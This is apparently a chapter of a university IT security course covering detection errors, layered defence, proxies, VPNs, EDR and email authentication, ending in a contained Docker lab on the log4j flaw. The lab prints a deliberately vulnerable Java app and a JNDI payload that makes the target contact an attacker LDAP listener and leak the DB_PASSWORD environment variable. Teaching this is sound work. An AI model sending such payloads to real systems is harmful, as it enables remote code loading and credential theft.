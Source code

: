 = Security Solutions (WIP)

To help combat security breaches, many different vendors offer security solutions.
These may be hardware or software designed to help mitigate a security threat.
Security solutions may be created in-house, created custom by a third party, or outsourced and offered as a service.
When evaluating solutions it is important to have a plan and understand the features and possible pitfalls of that product.

== False Positives / Negatives

When a security solution detects a threat, but no threat exists, that is a _false positive_.
Depending on the complexity of the solution it may utilize a set of rules, indicators of compromise, or possibly even artificial intelligence to trigger its warning system.
In the case of a solution that creates a lot of false positives, it can be tiring for a team to go through each alert.
Eventually teams are conditioned to ignore the alerts, making the security solution useless.

The key to lowering the false positive rate of a system is to better tune the rule set used to trigger the warnings.
A security team may spend time determining a baseline of events and looking for abnormalities that correspond to actual attacks.
This information can then be used to build a better detection system.

.Webroot Antivirus
====
https://www.nbcnews.com/tech/tech-news/popular-antivirus-program-mistakenly-ids-windows-threat-creating-chaos-n750521[In 2017 a popular antivirus service created a bad rule that identified certain Windows operating system files as threats.]
The antivirus solution quarantined these files, which were critical for the operation of the machine.
The result was a machine that was unusable.

For 13 minutes, Webroot distributed this rule to its antivirus software shutting down operations on an untold number of machines.
Fortunately Webroot was able to quickly identify the problem and send out an update which would have allowed the machines to automatically fix the problem.
Unfortunately their infrastructure for distributing the update quickly became overloaded.
====

When a security solution fails to identify a threat, this is known as a _false negative_.
While no solution can ever be 100% effective, false negatives can undermine confidence in a product.
False negatives may be resolved by a skilled SOC team, closely monitoring what is happening.
It is also possible to address false negatives through _Layered Security_ a concept that we will cover next.

== Layered Security

[svgbob, layers, float=left]
....
+---------+----------------------------+
| Layer 5 |      Human Monitoring      |
+---------+----------------------------+
| Layer 4 | Intrusion Detection System |
+---------+----------------------------+
| Layer 3 |          Firewall          |
+---------+----------------------------+
| Layer 2 |        Antimalware         |
+---------+----------------------------+
| Layer 1 |         Antivirus          |
+---------+----------------------------+
| Layer 0 |     Operating System       |
+---------+----------------------------+
....

Given that a single security solution is never 100% effective it makes sense to approach security in layers and use multiple systems.
There is often a lot of overlap between solutions and while that may seem inefficient in other fields, in cybersecurity we consider it a benefit.
By using multiple solutions, sometimes referred to as multi-layered security or defense in depth, you can build a more robust protection against breaches.

Let's take a look at an example to see how layered security can help mitigate the effects of a real-world attack.
Assume an SOC is supporting a web application on self-hosted machines.
A malicious actor wishes to exfiltrate data from the web application.
They begin by testing to see if SQL several different SQL injection attacks yield any results.

A well designed web application should sanitize its inputs and may prevent the queries from making it to the database.
Similarly an alert team may notice a sudden uptick in SQL queries, far beyond the usual baseline for the application.
An IDS (Intrusion Detection System) may flag the queries as known SQL injection attacks.
Assuming the attack makes it past the application, team, and the IDS, it is possible that the database user is configured according to the principle of least privilege and the queries will not be executed due to a lack of permissions.

As you can see, any one of these layers may be fail, but by having multiple layers the chance of an attack occurring is greatly diminished.

== Network Solutions

Many products are available for handling network traffic.
They are typically marketed as either stand-alone devices, software to install on internal devices, or a subscription service that routes traffic through an external appliance.
In the age of cloud computing network security as a service is becoming increasingly popular.

=== Firewall

=== Proxy

[svgbob, tls-proxy, float=right]
....
                 TLS Decrypting Proxy

                       Inspect
                       /     ^
                      V       \
                Re-encrypt  Decrypt
                      \      ^
                       v    /
.------.             .-------.             .--------.
| User | <---------> | Proxy | <---------> | Server |
'------'  encrypted  '-------'  encrypted  '--------'
           traffic               traffic
....

A proxy typically sits between the users and an external network.
Proxies and receive and send requests on behalf of a user, allowing for full control over the traffic going out and coming back in.

Proxies can be used for caching, access control, URL filtering, content scanning, and even packet inspection.
Proxy solutions may be explicit or transparent and are offered by many companies including McAfee, Fortigate, Netsparker, and Palo Alto.
A typical application of a proxy would be to filter explicit content on a school district network.

Proxies can also be broken into _forward_ and _reverse_ configurations.
A forward proxy passes requests from a private or internal network to the internet.
Forward proxies can speed up local requests through caching and validate that the request should be performed.
Forward proxies are interoperable with standard firewalls and network address translation (NAT).

Reverse proxies take requests from an external source and pass it to an internal service.
This helps prevent clients from having direct access to internal services.
Reverse proxies can utilize caching and validate requests as well.
A reverse proxy can also be configured to work with a firewall.
Whereas it used to be common practice to place a server in a demilitarized zone (DMZ) outside of a firewall, it is now far more common to employ a reverse proxy to reach that server. 

=== Load Balancer

A common application for reverse proxies is to act as a load balancer for traffic.
Load balancers distribute work, in the form of external client requests, among the internal resources, typically servers.

For example, if a company has four servers supporting a web application, they may employ a reverse proxy load balancer that takes requests from clients and passes that request to one of the four internal servers.
Different metrics are used to determine how the servers are utilized including least used (round robin), weighted, least amount of active connections.
Load balancers optimize bandwidth and increase availability.

=== VPN

A virtual private network (VPN) is used to encrypt internet traffic between two networks or a client and a network.
VPNs have become standard procedure for linking remote offices or connecting remote workers.
Given the growth of working from home, almost all users have become familiar with what a VPN is and what it does.

Site-to-site VPNs are typically used for linking offices together.
This kind of VPN is on permanently.
An example would be linking two college campuses: NJIT Newark and NJIT Jersey City.
In this scenario users on either campus expect to be able to connect securely to services on the opposite campus at all times.
The traffic is encrypted and carried over the Internet.

Remote access VPNs are used by individuals connecting in to a secure network.
This kind of VPN is usually stated through a application such as Cisco AnyConnect.
When the application is running the user is able to securely access internal resources as if they were at the office.

Many vendors offer VPN products including Cisco, Citrix, Fortinet, Palo Alto, and Checkpoint.
Many open source options also exist for building VPNs including https://openvpn.net/[OpenVPN], https://www.wireguard.com/[WireGuard], and https://linuxhint.com/how-to-implement-ipsec-in-linux/[IPsec].

=== TAP

Sometimes it is necessary for a network or security engineer to monitor what is happening on a particular network segment.
In this case a network terminal access point (TAP) can be employed.
A TAP creates a copy of network traffic and forwards it to a particular port on a switch or router.

== EDR

Endpoint Detection and Response (EDR) is used to secure endpoints: servers, workstations, desktops, mobile devices, etc.
EDR is typically implemented as a host-based incident prevention system (HBIPS), software that runs on the endpoint to monitor and collect data.

These systems will usually watch for indicators of compromise, scan for malware, and can even quarantine or shutdown the endpoint as needed.
Company hardware is a significant investment for any business and an EDR makes sure that investment is protected.
Many systems exist for EDR including FireEye, SEP, and CrowdStrike.

== Data Loss Prevention

== IDS/IPS

== Email Solutions

The original protocols used to send/receive email were simple and not designed for the challenges we face today.
SPAM and phishing emails are unfortunately common and can be addressed with email client add-ons that scan for viruses or use patterns to identify phishing emails.
Many of these tools are already built into Google's GMail or Microsofts Exchange.

Another large challenge is verifying the sender of an email.
Currently three common methods exist: Sender Policy Framework (SPF), DomainKeys Identified Mail (DKIM), and Domain-base Message Authentication, Reporting, and Conformance (DMARC).

SPF utilizes TXT records on a DNS domain to verify the IP of a sender.
When inbound mail is received, the SPF information for the domain of the sender is retrieved, giving an allowed list of IPs.
For example, NJIT's SPF record currently looks like this:

[source, txt]
----
v=spf1 ip4:128.235.251.0/24 ip4:128.235.209.0/24 ip4:66.207.100.96/27 ip4:66.207.98.32/27 ip4:205.139.104.0/22 ip4:206.79.6.0/24 ip4:209.235.101.208/28 ip4:216.185.73.96/27 ip4:69.196.241.0/28 ip4:69.196.242.128/28 ip4:46.183.242.192/28 ip4:202.38.144.192/28 ip4:69.196.236.208/28 ip4:103.225.232.128/28 ip4:37.216.222.128/28 ip4:64.125.200.96/28 ip4:74.217.49.0/25 ip4:69.25.227.128/25 ip4:52.45.50.190 ip4:198.187.196.100 include:_netblock.njit.edu include:spf.sparkmail.org ~all
----

It is important to note that not all of these IPs belong to NJIT.
Some may be groups that send emails on NJIT's behalf like mass mailers, web applications, etc.
When properly configured SPF prevents an attacker from impersonating emails from a domain.

DKIM utilizes public and private key cryptography to ensure that an email originated from a particular SMTP server.
Public keys for a domain are advertised through a TXT DNS record for a particular domain.
Private keys are used by the SMTP server for that domain to sign the emails being sent.
A receiving SMTP server can then verify that the message originated from a valid SMTP server for that domain.
Private keys can also be distributed to SMTP servers that send emails on behalf of the domain.

DMARC applies policies to the SPF and DKIM validations.
DMARC answers questions like, "What should I do if a message is from a valid SPF IP but doesn't have a valid DKIM signature?" or "What should I do with a message that looks like SPAM but has a valid DKIM signature?"
DMARC puts many of the tools used to verify email together in a layered approach to determine whether to pass, quarantine, or block an email.

== SEIM

[source, svgbob, seim, align=right]
....
           Firewalls ----+  +---- Servers
                         |  |
                         V  V
                .--------------------.
                | +----------------+ |
Workstations -->| | [S]ecurity and | |<-- Switches
                | | [I]nformation  | |
                | | [E]vent        | |
     Routers -->| | [M]anagement   | |<-- Proxies
                | +----------------+ |
                '--------------------'
                         ^  ^
                         |  |
                 IPS ----+  +---- DMARC
....

== Lab: Exploiting log4j

In this lab we will examine the log4j vulnerability, https://nvd.nist.gov/vuln/detail/CVE-2021-44228[CVE-2021-44228].
This vulnerability takes advantage of a flaw in a common logging library used by many Java applications, including Apache, neo4j, Steam, iCloud, and Minecraft. 
Any attacker that can cause a message to be logged can use the Java Naming and Directory Interface (JNDI) and cause the target to reach out to another server, LDAP in our example, and load a remote Java class file.
This file can contain any code that the attacker wishes to inject into the server process.

[IMPORTANT.deliverable]
====
Do some research: What versions of log4j are affected by this vulnerability?
====

This lab uses a Docker Compose configuration to simulate a network with an attacker and a target.
The target runs a https://github.com/leonjza/log4jpwn[known-vulnerable, example application] written by leonjza.
This example application logs the `User-Agent` header, request path, and a query string parameter of a request as seen below:

.App.java
[source, java]
----
package com.sensepost.log4jpwn;

import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.LogManager;

import static spark.Spark.*;

public class App {
    static final Logger logger = LogManager.getLogger(App.class.getName());

    public static void main(String[] args) {

        port(8080);

        get("/*", (req, res) -> {

            String ua = req.headers("User-Agent");
            String pwn = req.queryParams("pwn");
            String pth = req.pathInfo();

            System.out.println("logging ua: " + ua);
            System.out.println("logging pwn: " + pwn);
            System.out.println("logging pth: " + pth);

            // trigger
            logger.error(ua);
            logger.error(pwn);
            logger.error(pth);

            return "ok: ua: " + ua + " " + "pwn: " + pwn + " pth:" + pth;
        });
    }
}
----

[IMPORTANT.deliverable]
====
What port does our vulnerable app run on? 
====

Our attacker container has https://github.com/leonjza/log4jpwn/blob/master/pwn.py[the `pwn.py` script], also by leonjza, which does two things:

. Runs a fake LDAP server in the background on port 8888
. Sends a request with the JNDI URI referencing the fake LDAP server asking for a Java value to leak
. Parses and prints the response

Using this setup we can show how log4j can be used to leak sensitive information from running processes.
We will use it to leak the value of the environment variable `DB_PASSWORD`.
As it isn't uncommon to store secrets in environment variables on running containers, this should suffice to see just how devastating this exploit can be.

Start by downloading https://github.com/rxt1077/it230/blob/main/labs/log4j.zip?raw=true[the zip archive of this lab] and unzipping it in a directory where you have write permissions and can navigate to in a terminal application. Once you've done that, you can bring the lab up by typing `docker-compose up` in that directory. Output should look similar to what you see below:

[source, console]
----
PS C:\Users\rxt1077\it230\labs\log4j> docker-compose up
[+] Running 2/0
 - Container log4j-target-1    Created                                                            0.0s
 - Container log4j-attacker-1  Created                                                            0.0s
Attaching to log4j-attacker-1, log4j-target-1
log4j-attacker-1 exited with code 0
log4j-target-1    | WARNING: sun.reflect.Reflection.getCallerClass is not supported. This will impact performance.
log4j-target-1    | [Thread-0] INFO org.eclipse.jetty.util.log - Logging initialized @815ms to org.eclipse.jetty.util.log.Slf4jLog
log4j-target-1    | [Thread-0] INFO spark.embeddedserver.jetty.EmbeddedJettyServer - == Spark has ignited ...
log4j-target-1    | [Thread-0] INFO spark.embeddedserver.jetty.EmbeddedJettyServer - >> Listening on 0.0.0.0:8080
log4j-target-1    | [Thread-0] INFO org.eclipse.jetty.server.Server - jetty-9.4.z-SNAPSHOT; built: 2019-04-29T20:42:08.989Z; git: e1bc35120a6617ee3df052294e433f3a25ce7097; jvm 11.0.14+9-post-Debian-1deb11u1
log4j-target-1    | [Thread-0] INFO org.eclipse.jetty.server.session - DefaultSessionIdManager workerName=node0
log4j-target-1    | [Thread-0] INFO org.eclipse.jetty.server.session - No SessionScavenger set, using defaults
log4j-target-1    | [Thread-0] INFO org.eclipse.jetty.server.session - node0 Scavenging every 600000ms
log4j-target-1    | [Thread-0] INFO org.eclipse.jetty.server.AbstractConnector - Started ServerConnector@401fccd3{HTTP/1.1,[http/1.1]}{0.0.0.0:8080}
log4j-target-1    | [Thread-0] INFO org.eclipse.jetty.server.Server - Started @960ms
----

You'll notice that the `target` service is up and running the `log4jpwn` example application and that its output goes straight to the screen.
The `attacker` service will exit immediately as it is meant for interactive use and doesn't run anything in the background.
In another terminal, navigate to the lab directory again and run `docker-compose run attacker bash`. This will be the shell that you use to attack the target:

[source, console]
----
PS C:\Users\rxt1077\it230\labs\log4j> docker-compose run attacker bash
root@3971c61303c8:/# <1>
----
<1> Notice how the prompt changes once we are in the container

In the attack shell, use the `ip` command to determine the IPv4 address of your container.
We will need this since the `attacker` container will be listening for connections from `target` once the exploit string is logged.

[source, console]
----
root@3971c61303c8:/# ip addr show dev eth0
58: eth0@if59: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:ac:14:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet <IP_ADDRESS>/16 brd 172.20.255.255 scope global eth0 <1>
       valid_lft forever preferred_lft forever
----
<1> You're IP is _not_ `<IP_ADDRESS>` it is whatever you find in its place!

Once you have the IP address, you can run the `pwn.py` script on the `attacker` container and you should be able to read the `DB_PASSWORD` environment variable on the `target` container.

[source, console]
----
root@3971c61303c8:/# python /pwn.py --listen-host <IP_ADDRESS> --exploit-host <IP_ADDRESS> --target http://target:8080 --leak '${env:DB_PASSWORD}' <1>
 i| starting server on <IP_ADDRESS>:8888
 i| server started
 i| setting payload in User-Agent header
 i| sending exploit payload ${jndi:ldap://<IP_ADDRESS>:8888/${env:DB_PASSWORD}} to http://target:8080/
 i| new connection from <TARGETS_IP>:44050
 v| extracted value: <DB_PASSWORD> <2>
 i| request url was: http://target:8080/
 i| response status code: 200
----
<1> Docker Compose will resolve service names to IP addresses so the target URI doesn't require finding an IP
<2> The value of `DB_PASSWORD` can will be here.

[IMPORTANT.deliverable]
====
What is the database password?
====

[IMPORTANT.deliverable]
====
What steps would you take to mitigate the risk of a deployed application having this vulnerability?
====

== Review Questions

[qanda]
What does it mean that security solutions are migrating from physical devices to cloud services? Give an example.::
    {empty}
In your opinion, which is more damaging, a false positive or a false negative? Why?::
    {empty}
What are the applications of a site-to-site VPN? Give an example of a scenario where an office might employ one.::
    {empty}
